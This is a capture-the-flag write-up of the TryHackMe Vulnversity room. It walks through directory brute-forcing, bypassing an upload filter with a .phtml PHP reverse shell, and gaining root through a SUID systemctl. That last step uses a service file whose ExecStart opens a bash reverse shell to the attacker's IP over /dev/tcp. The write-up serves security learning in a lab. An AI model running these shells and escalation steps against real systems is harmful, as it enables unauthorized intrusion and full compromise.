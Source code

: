 # Vulnversity Room - CTF

This weekend I completed the Vulnversity room. 
This room was an introductory room that gave some guidance on where to look and stepped through the major points of getting the initial reverse shell operating.

From there, the privilege escalation was left up to me to work out. 

The target was a webserver, the exploitation based was based on PHP. The web server had a PHP upload portal where I was able to upload a reverse PHP shell, then through this shell escalate my privileges to root using a misconfigured permission on the systemctl program within the server.

Notes: 
 - I have not included the basic setup steps for TryHackMe. 
 - Initially I started using the provided 'AttackBox' from TryHackMe, but part way I ended up using my open Kali linux box connected via the VPN so my IP address and the target IP address IPs changed a few times throughout my process description below.

### Tools
I used the following tools:
- Kali Linux
- Nmap
- Netcat
- GoBuster
- Burp
- Linux shell
- Php reverse shell (see link in write up below)

Here is how it went:

## Step 1: Reconnaissance

### Basic reconnaissance was performed using NMAP. 

The open ports discovered with NMAP:

![image](https://user-images.githubusercontent.com/60744763/120154230-ffc22900-c232-11eb-88a2-8df3177cc8b7.png)

Then I looked at the versions of the services with these open ports using the -sV flag with NMAP

![image](https://user-images.githubusercontent.com/60744763/120154311-18cada00-c233-11eb-9682-38c0e05c6c73.png)

We can see Apache running on port 3333, this will be our attack vector. 

### GoBuster to discover interesting folders on the web server

From here we use GoBuster to look for interesting directories on the web server. I  used a brute force method with different word lists.
After trying with a few word I found some interesting folders.

![image](https://user-images.githubusercontent.com/60744763/120154589-634c5680-c233-11eb-8896-7a0501b2bcee.png)

From here we discovered the 'internal' folder, browsing to this showed us an upload portal.

![image](https://user-images.githubusercontent.com/60744763/120154708-7a8b4400-c233-11eb-8603-b287a43fd81b.png)

*Note at this point I changed over to my Kali linux box and reset the target machine, as such the IP address changed.*

Now I looked for additional interseting folders within the /internal URI using GoBuster again.
This found another folder called *uploads* which looks interesting, likely the directory where the upload portal drops files. 

![image](https://user-images.githubusercontent.com/60744763/120176571-c72e4980-c24a-11eb-8e7f-8e684f0761e2.png)


## Step 2: Attempt to deliver a pay load and compromise the server

I used Burp to try and find out what types of file extensions can be uploaded, hoping for a PHP based file. 
Using Burp's sniper attack allowed me to try various file extensions very quickly. 
 
![image](https://user-images.githubusercontent.com/60744763/120155034-cf2ebf00-c233-11eb-88b3-a73405d0430d.png)

This identified that .phtml files can be uploaded, see above.

### Now we deliver the payload:

I uploaded a php reverse shell as a .phtml file using the target's upload page. 
I edited the reverse shell script variables so it points back to my Kali linux’s IP and port. 
The reverse shell was from here: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php 

Then I setup a netcat listener with this command: `nc -lvnp 1234`
This will listen for an incoming connection on port 1234. 
*Note the php reverse shell must be set with this port and my IP address so it can make a connection.*

Then I went to the url http://10.10.151.175:3333/internal/uploads/php-reverse-shell.phtml to run the script I just uploaded. 

Seconds later I received a connection on my netcat listener!
We can see below the reverse shell has made a connection back to my kali box.

![image](https://user-images.githubusercontent.com/60744763/120155466-33ea1980-c234-11eb-81fe-00558f14202d.png)

And now I have shell access! 

Searching around on this server, I found the first flag in the user's home folder in a file called 'user.txt'.

![image](https://user-images.githubusercontent.com/60744763/120173380-533e7200-c247-11eb-9091-768cf087f58d.png)

## Step 3: Privilege Escalation

Now we want to attempt to get root access. I will look for files with the SUID bit set, maybe one of them can be exploited.

I used the command `find . -perm /4000` to find files with the SUID permissions set. 
This showed that `systemctl` had the sticky-bit set, which is not normal. Since a normal user can stop, start and even create services.

![image](https://user-images.githubusercontent.com/60744763/120173803-bf20da80-c247-11eb-8a77-87f0e5b9c0e4.png)

At this point my plan is to create a service that launches a shell which I can access with the systemctl command. 
Now researching how to do this... BRB

Ok I'm back! I found this article which discusses making a reverse bash shell service to exploit systemctl.
https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49 


I created a file called root.service as below, which will be my service:
```
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.4.37.95/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

I named the file with a phtml extension and uploaded it through the site (this was quicker than using the nc terminal to create the service file).

Then I renamed the uploaded file from my active shell on the webserver to root.service. 
I ran the following command to create the appropriate symlinks and allow the system to run the service: 
`systemctl enable /var/www/html/internal/uploads/root.service`

![image](https://user-images.githubusercontent.com/60744763/120178127-7cadcc80-c24c-11eb-9475-61e569611f31.png)

Now we have created a new service which should launch a reverse shell back to my kali box.

At this point I opened another netcat listener on port 9999 (as per the root.service) on my Kali box. 
After this I started the service on the webserver shell with the command `systemctl start root.service`

Presto! The service connected back to my Kali machine with the reverse shell as root. See below...

![image](https://user-images.githubusercontent.com/60744763/120174190-29d21600-c248-11eb-9cf7-bbf5514c3653.png)

The flag was found in the folder /root/



